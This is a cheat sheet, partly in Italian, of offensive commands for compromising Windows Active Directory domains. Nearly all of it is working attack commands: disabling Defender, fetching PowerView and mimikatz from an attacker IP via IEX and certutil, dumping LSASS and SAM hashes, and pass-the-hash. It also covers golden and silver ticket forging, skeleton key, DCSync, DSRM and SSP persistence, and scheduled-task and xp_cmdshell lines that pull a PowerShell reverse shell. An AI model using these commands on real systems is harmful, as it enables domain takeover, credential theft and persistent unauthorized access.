


# Active-Directory-Cheat-Sheet

## Bypass Execution Policy
```
	- powershell -ep bypass -c "command"
	- powershell -c "command"
	- powershell -encodedcommand
	- $env:PSExecutionPolicyPreference="bypass"
	
```
## Disable Firewall
```
	- Set-MpPreference -DisableRealtimeMonitoring $ture -Verbose
	- Set-MpPreference -DisableIOAVprotection $true -Verbose
```

## Enter in a new machine vias rdp or via powershell

```
	- Get-Credentials [via RDP]
	- Enter-PSSession -ComputerName techsrv30.tech.finance.corp -Credential tech\techservice [successivamente verrà chiesta la password]
```
## Enumeration via Powerview

### PowerView:
- Domain/USER Enumeration
```
	- hostname (vedo il mio name del computer nel dominio)
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-Domain"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainSID"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainPolicy"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -SPN"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -Properties samaccountname,memberof"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -Properties samaccountname,description"
	- powershell -ep bypass -c "[System.Net.Dns]::GetHostAddresses('xor-app23')" (converte hostname in IP)
```

- Domain Controller
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetDomainController"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetDomainController -Domain [another domain]"
```

- GROUP Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -Name 'Domain Admins'"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-DomainGroup | where Name -like "*Admin*" | select SamAccountName "
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroupMember -Name 'Domain admins' "
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -Domain 'xor.com'"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroupMember -Identity "Domain admins" -Recurse | findstr MemberName"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -UserName 'HUA10157' | findstr cn"
```

- COMPUTER Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetComputer | select 	samaccountname, operatingsystem"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainComputer -Ping "
```

- Local Group in the machine 
```
	- hostname
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-NetLocalGroup -ComputerName PWVRTJS14.socrome.local"
```

- Logged on the computer 
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-NetLoggedon -ComputerName PWVRTJS14.socrome.local"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-LastLoggedOn -ComputerName PWVRTJS14.socrome.local"
```

- SHARED INFO Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Find-DomainShare -Verbose"
	- cd \\fileshare.pentesting.local\FileShare
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-ShareFinder -Verbose"
```

- GPO Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetGPO"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetGPO -ComputerName PWVRTJS14.socrome.local"
	
```

- OU Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainOU"
```

- ACL (Lista di ACE (corrisponde ad un unico permesso/accesso) Due tipi: DACL(Identifica gruppi/user che hanno o accesso al servizio) e SACL(Controlla gli accessi (EDR))
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-ObjectAcl -SamAccountName HUA10157 -ResolveGUIDs"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-PathAcl -Path '\\dcorp dc.dollarcorp.moneycorp.local sysvol'"
```

- Forest
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetForest"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetForestDomain"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetForestCatalog"
```

- User Hunting (1: Trova tutte le macchine dove lo user ha local admin access, 2: Trova local admins su tutte le macchine del dominio, 3: Trova pc dove un domanin admin ha sessione, 4: Trova computer dove un domain admin è loggato)
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Find-LocalAdminAccess"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-EnumerateLocalAdmin Verbose"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-UserHunter"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke.UserHunter -Stealth"
```

## Archiviazione e recupero credenziali memorizzate (Lateral Movement) [Local Admin nella macchina]
### Poiché l'implementazione di Kerberos da parte di Microsoft utilizza il single sign-on, gli hash delle password devono essere archiviati da qualche parte per rinnovare una richiesta TGT. Nelle versioni correnti di Windows, questi hash sono archiviati nello spazio di memoria LSASS (Local Security Authority Subsystem Service). Se otteniamo l'accesso a questi hash, potremmo craccarli per ottenere la password in chiaro o riutilizzarli per eseguire varie azioni.
### Problemi: Sebbene questo sia l'obiettivo finale del nostro attacco AD, il processo non è così semplice come sembra. Poiché il processo LSASS fa parte del sistema operativo e viene eseguito come SYSTEM, abbiamo bisogno delle autorizzazioni SYSTEM (o amministratore locale) per ottenere l'accesso agli hash archiviati su una destinazione.Per questo motivo, per prendere di mira gli hash archiviati, spesso dobbiamo iniziare il nostro attacco con un'escalation dei privilegi locali. Per rendere le cose ancora più complicate, le strutture di dati utilizzate per archiviare gli hash in memoria non sono pubblicamente documentate e sono anche crittografate con una chiave archiviata in LSASS.
##Prerequisito: Devi essere Local Domain Admin dentro la macchina exploitata 

- Uso reg per recupero NTLM
```
			- reg save HKLM\sam sam
			- reg save NKLM\system system
			- samdump2 system sam (NTLM lo piazzi dentro un file .txt)
			- hashcat -m 1000 -a 3 hash.txt rockyou.txt
```
- Con mimikatz eseguibile (mimikatz.exe)
```
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > hash.txt
			- impacket-psexec username:password@IP
			- xfreerdp /u:david /d:xor.com /p:dsfdf34534tdfGDFG5rdgr  /v:10.11.1.120
```
- Con Invoke-Mimikatz
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command ' "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit" '
```
- Over pass the Hash
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"sekurlsa::pth" "user:Administrator" "domain:dollarcorp.moneycorp.local" "ntlm:<ntlmhash>" "run:powershell.exe"'
```
o
```
			- Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt
```

## Golden Ticket [Domain Admins]
### Tornando alla spiegazione dell'autenticazione Kerberos, ricordiamo che quando un utente inoltra una richiesta per un TGT, il KDC crittografa il TGT con una chiave segreta nota solo ai KDC nel dominio. Questa chiave segreta è in realtà l'hash della password di un account utente di dominio chiamato krbtgt. Se riusciamo a mettere le mani sull'hash della password krbtgt, potremmo creare i nostri TGT personalizzati o biglietti d'oro.
### Ad esempio, potremmo creare un TGT in cui si afferma che un utente senza privilegi è in realtà un membro del gruppo Domain Admins e il controller di dominio lo considererà attendibile poiché è crittografato correttamente.
## Prerequisito: In questa fase del coinvolgimento, dovremmo avere accesso a un account che è un membro del gruppo Domain Admins oppure aver compromesso il controller di dominio stesso.  

- Ottenere nel DC come DA HASH krbtgt 
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dc-corp
```

```
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe '"lsadump::lsa /patch"' -Computername dc-corp
```
- Usare HASH krbtgt per creare un Golden ticket per un user non autenticato 
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "/krbtgt:$NTLM_HASH" "id:500" "groups:512" "/user:fakeuser" "/ptt"'
```	
```
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "id:500" "groups:512" "/krbtgt:$NTLM_HASH" "/user:fakeuser" "/ptt"'
```
- Si può usare la funzione DCSync per ottenere hash krbtgt usando Mimikatz
```
			- mimikatz.exe '"lsadump::dcsync" "/user:$DOMAIN\krbtgt"'
			- Invoke-Mimikatz -Command  '"lsadump::dcsync" "/user:$DOMAIN\krbtgt"'
```
## Silver Ticket [Conoscenza Hash account service. Ovviamente Local Admin nella macchina di partenza]
### I Silver Ticket sono ticket TGS (Ticket Granting Service) contraffatti creati da un utente malintenzionato utilizzando l'hash della password di un account di servizio compromesso. Quando un utente malintenzionato ha violato la password di un account di servizio, potrebbe sembrare che non avrebbe bisogno di falsificare i ticket per agire per suo conto. Mentre un biglietto d'oro è un TGT falso valido per ottenere l'accesso a qualsiasi servizio Kerberos, il biglietto d'argento è un TGS contraffatto. Ciò significa che l'ambito Silver Ticket è limitato a qualsiasi servizio destinato a un server specifico.
### Mentre un ticket Golden viene crittografato/firmato con l'account del servizio Kerberos di dominio (KRBTGT) , un ticket Silver viene crittografato/firmato dall'account del servizio (credenziale dell'account del computer estratta dal SAM locale del computer o credenziale dell'account del servizio)
### I biglietti d'argento possono essere più pericolosi dei biglietti d'oro: sebbene l'ambito sia più limitato dei biglietti d'oro, l'hash richiesto è più facile da ottenere e non c'è comunicazione con un controller di dominio quando li si utilizza, quindi il rilevamento è più difficile di quelli d'oro Biglietti.
## Prerequisito: Per creare o falsificare un Silver Ticket, l'attaccante deve conoscere i dati della password (hash) per il servizio di destinazione. Se il servizio di destinazione è in esecuzione nel contesto di un account utente, come MS-SQL, è necessario l'hash della password dell'account di servizio per creare un Silver Ticket. (https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)
- Servizio CIFS (Ma possono essere altri servizi come HOST). Il servizio CIFS permette di accedere al file system della vittima.
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "/service:CIFS" "/target:mgmtsrv.TECH.FINANCE.CORP" /user:Administrator /rc4:$NTLM_HASH_Service_Account /ptt'
```
- Servizio HOST (schedule a task sul target).
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "/service:HOST" "/target:mgmtsrv.TECH.FINANCE.CORP" /user:Administrator /rc4:$NTLM_HASH_Service_Account /ptt'
			- schtasks /create /S mgmtsrv.TECH.FINANCE.CORP /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString('http://172.16.100.68:8080/Invoke-PowerShellTcp.ps1')'"
			- schtasks /Run /S mgmtsrv.TECH.FINANCE.CORP /TN "STCheck"
			- Import-Module powercat.ps1
			- powercat -l -v -t 1000 -p 2023
Execute the task
```
## Skeleton Key [Domain Admins]
### Questo attacco si impianta in LSASS e crea una password principale che funzionerà per qualsiasi account Active Directory nel dominio. Poiché anche le attuali password degli utenti continuano a funzionare, un attacco Skeleton Key non interromperà il processo di autenticazione, quindi gli attacchi sono difficili da individuare a meno che tu non sappia cosa cercare. Il riavvio del DC rimuoverà questo attacco. Si potrà accedere a qualsiasi pc con username valido e password che di default sarà mimikatz
## Prerequisiti: Essere un utente del gurppo Domain Admins
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName FQDN
```	
```
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe '"privilege::debug" "misc::skeleton" "/target: FQDN_DC"'
			- Enter-PSSession -Computername DC -credential Domain\Administrator
```			
### Se LSASS sta runnando come processo protetto si può usare ancora questa tecnica, tuttavia avrà bisogno del driver mimikatz(mimidriv.sys) sul disco del DC target
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "misc::skeleton" "!-"' -ComputerName FQDN
```	
```
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe '"privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "/target: FQDN_DC" "misc::skeleton" "!-"'
			- Enter-PSSession -Computername DC -credential Domain\Administrator
```


## Contrained Delegation [Local Admin on machine]
### 1) Un utente, Joe, si autentica al servizio web (in esecuzione con l'account servizio studvm ) utilizzando un meccanismo di autenticazione non compatibile con Kerberos.
### 2) Il servizio web richiede un ticket al Key Distribution Center (KDC) per l'account di Joe.
### 3) Il KDC controlla il valore userAccountControl di studvm per l'attributo TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION e che l'account di Joe non sia bloccato per la delega. In caso di esito positivo, viene restituito un ticket inoltrabile per l'account di Joe (S4U2Self).
### 4) Il servizio passa quindi questo ticket al KDC e richiede un ticket di servizio per il servizio CIFS/mgmtsrv.TECH.FINANCE.CORP .
### 5) Il KDC controlla il campo msDS AllowedToDelegateTo dell'account websvc. Se il servizio è presente nell'elenco, restituirà un ticket di servizio per mgmtsrv (S4U2Proxy).
### 6) Il servizio Web può ora autenticarsi al CIFS su mgmtsrv come Joe utilizzando il TGS fornito.
## Prerequisiti: Richiesto local Admin on machine and Hash machine di partenza. Per abusare della delega vincolata nello scenario sopra descritto, è necessario avere accesso all'account studvm. Se si ha accesso a tale account, è possibile accedere ai servizi elencati in msDS AllowedToDelegateTo dell'account websvc come QUALSIASI utente.
```
			- Get-DomainUser -TrustedToAuth
			- Get-DomainComputer -TrustedToAuth
			- powershell -ep bypass
			- kekeo@ tgt::ask /user:studvm /domain:TECH.FINANCE.CORP /rc4:[HASH account servizio studvm] [step 2 e 3]
			- .\Rubeus.exe s4u /user:studvm /rc4:[HASH account servizio studvm] /impersonateuser:Administrator /msdsspn:CIFS/mgmtsrv.TECH.FINANCE.CORP /altservice:HOST /ptt [alservice= può essere fornito per sostituire uno o più nomi di servizio nel file .kirbi risultante]
			- klist
```	

## Uncontrained Delegation 

## MSSQL Servers
### I server MS SQL sono generalmente distribuiti in abbondanza in un dominio Windows.
### I server SQL offrono ottime possibilità di spostamento laterale, in quanto gli utenti del dominio possono essere mappati su ruoli di database.

```
			- powershell -ep bypass
			- Import-Module PowerupSQL.psd1
			- Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose [Gather information]
			- Get-SQLServerLinkCrawl -Instance dbserver31.TECH.FINANCE.CORP -Query 'exec master..xp_cmds hell "powershell iex(New-Object Net.WebClient).DownloadString("http://$IP_Attacker/Invoke-PowerShellTcp.ps1")"' [esecuzione commandi]
```	


## DSRM (Directory Services Restore Mode) [Domain Admins]
### C'è un local administrator su ogni DC chiamato Administrator la cui password è DSRM password. Tale password è richiesta quando un server è promosso a DC e viene cambiata raramente. Quindi è possibile usare NTLM hash di questo user per accedere a DC.
## Prerequisiti: Richiesto Domain Admins privileges
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dc-host-name
			- Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dc-host-name (comparazione Admin hash con admin hash di questo comando. Il primo è quello DSRM)
			- Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior #Check if the key exists and get the value
			- New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD #Create key with value "2" if it doesn't exist
			- Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  #Change value to "2"
			- Invoke-Mimikatz -Command  '"sekurlsa::pth" "/domain:dc-host-name" "/user:Administrator" "/ntlm:HASH_DSRM" "/run:powershell.exe"'
			- ls \\dc-host-name\C$
```	
```
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe '"token::elevate" "lsadump::sam" "/target: dc-host-name"'
			- mimikatz.exe '"/target: FQDN_DC" "lsadump::lsa /patch"'
			- Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior #Check if the key exists and get the value
			- New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD #Create key with value "2" if it doesn't exist
			- Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  #Change value to "2"
			- mimikatz.exe '"sekurlsa::pth" "/domain:dc-host-name" "/user:Administrator" "/ntlm:HASH_DSRM" "/run:powershell.exe"'
			- ls \\dc-host-name\C$
	
```

## Custom SSP (Security Support Provider) [Local Admin nella macchina]
### La SSP è una DLL la quale fornisce una via per un applicazione di ottenere una comunicazione autenticata. Alcune SSP di Microsoft sono NTLM,Kerberos,WDigest. L'SSPI si occuperà di trovare il protocollo adeguato per due macchine che vogliono comunicare. Il metodo preferito è Kerberos. Questi protocolli di autenticazione sono chiamati Security Support Provider (SSP), si trovano all'interno di ogni macchina Windows sotto forma di DLL ed entrambi i computer devono supportarli per poter comunicare. Mimikatz fornisce una SSP personalizzata chiamata (mimilib.dll). Questo SSP registra i logon locali, account di servizio e le password degli account macchina in testo chiaro sul server di destinazione.
## Prerequisiti: Local Admin nella macchina
```
			Drop the mimilib.dll to system32 and add mimilib to
			- $packages Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' select -ExpandProperty 'Security Packages'
			- $packages += "mimilib"
			- Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
			- Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
			
			Using Invoke-Mimikatz
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"misc::memssp"'
			- Tutte le info recuperate sono su C:\Windows\system32\kiwissp.log
	
```
```
			Drop the mimilib.dll to system32 and add mimilib to
			- $packages Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' select -ExpandProperty 'Security Packages'
			- $packages += "mimilib"
			- Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
			- Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
			
			Using mimikatz
			- certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe
			- mimikatz.exe '"misc::memssp"' (inieittare mimilib dentro lsass -> non stabile per Server 2016)
			- Tutte le info recuperate sono su C:\Windows\system32\kiwissp.log
```

## AdminSDHolder (Privilegi Domain Admins sull'oggetto AdminSDHolder)
### AdminSDHolder è un container e viene utilizzato per controllare le autorizzazioni permessi utilizzando una ACL per alcuni gruppi privilegiati incorporati ( chiamati gruppi protetti come Domain Admins,Backup Operators,Server Operators..).L'ACL può essere visualizzato sull'oggetto AdminSDHolder stesso. Utenti e computer -> System -> AdminSDHolder e selezionare Proprietà. Security Descriptor Propagator (SDPROP) viene eseguito ogni ora e confronta l'ACL dei gruppi e dei membri protetti con l'ACL di AdminSDHolder e le eventuali differenze vengono sovrascritte nell'ACL dell'oggetto.
```
			- Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder, CN=System' -PrincipalSamAccountName claudionepc -Rights -All -Verbose (Aggiundere da account nel DA pieno controllo ad un utente normale claudionepc al AdminSDHolder)
			- Set-ADACL -DistinguishedName 'CN=AdminSDHolder, CN=System, DC=dollarcorp, DC=nomeycorp,DC=local' -Principal claudionepc -Verbose (Usare modulo ActiveDrectory)
			- Invoke-SDPropagator -timeoutMinutes 1 -showProgress
```

## Trust Flow Across Forest



### Da un DC domain possiamo forgiare un TGT (Golden Ticket) per un Enterprise Admins. Passiamo da un Domain Admins ad un Enterprise Admins (riconosciuto perchè il suo SID finisce con 519.Possiede l'accesso amministrativo a tutti i domini in una foresta)
```
			- powershell -ep bypass
			- Import-Module Invoke-Mimikatz.ps1
			- Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:tech.finance.corp /sid:[SID Dominio di partenza] /sids:[SID Domain Enterprise] /krbtgt:[HASH] /ticket:C:\Users\studentuser\Desktop\krbtgt_txt.kirbi"
			- Invoke-Mimikatz -Command '"kerberos:ptt C:\Users\studentuser\Desktop\krbtgt_txt.kirbi"'
			- ls \\finance-dc.finance.corp\C$
```
